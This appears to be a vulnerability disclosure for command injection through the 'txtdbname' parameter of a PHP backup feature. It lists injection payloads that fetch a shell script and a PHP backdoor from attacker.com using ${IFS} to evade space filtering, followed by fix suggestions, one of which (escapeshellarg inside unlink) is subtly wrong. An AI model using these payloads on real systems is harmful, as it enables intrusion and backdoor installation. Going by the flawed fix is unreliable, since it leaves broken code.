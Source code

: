 ### Attack Payload Examples:
```
txtdbname=validDB;\$(malicious_command>output.txt)
txtdbname=/tmp;curl${IFS}attacker.com/shell.sh${IFS}-oC2
txtdbname=/var/www/html/;wget${IFS}http://attacker.com/backdoor.php
txtdbname=./x||command||/../ 
```

## Code Scan 

this vulnerability find by [IRify](ssa.to) :

![image.png](https://s2.loli.net/2025/04/02/ujGKOY7dLMvD1tn.png)



## Proof of Concept


### Technical Analysis:
1. The vulnerability chain exploits:
   - MySQL connection success requirements
   - Path normalization quirks in filesystem operations
   - Command injection via semicolon/parameter substitution

2. Server-specific considerations:
   - Works on both Windows (`&` command separator) and Unix (`;` separator) systems
   - Environment variable substitution via `${IFS}` bypasses space filtering


this valnerability validation by [Yakit](https://www.yaklang.io/)

For skip mysql connect and file open, we use my own mysql database and db nam: `./xx||command||/../` 
> In windows so we use `||` 
![image.png](https://s2.loli.net/2025/04/02/csgzNIqvkipdZoj.png)
We use `curl www.example.com -o example.txt` send request and downlaod web page  like this : 
![image.png](https://s2.loli.net/2025/04/02/YaUZDoGsAxOdly4.png)



## Suggested Repairs

### Immediate Fixes:
1. **Input Validation**:
   ```php
   $dbname = preg_replace('/[^a-zA-Z0-9_-]/', '', $_POST['txtdbname']);
   ```

2. **Secure Path Construction**:
   ```php
   $backup_dir = '/secured_backups/';
   $backup_file_name = realpath($backup_dir).DIRECTORY_SEPARATOR.basename($dbname).'.sql';
   ```

3. **Command Execution Hardening**:
   ```php
   // Replace exec() call with:
   unlink(escapeshellarg($backup_file_name));
   ```
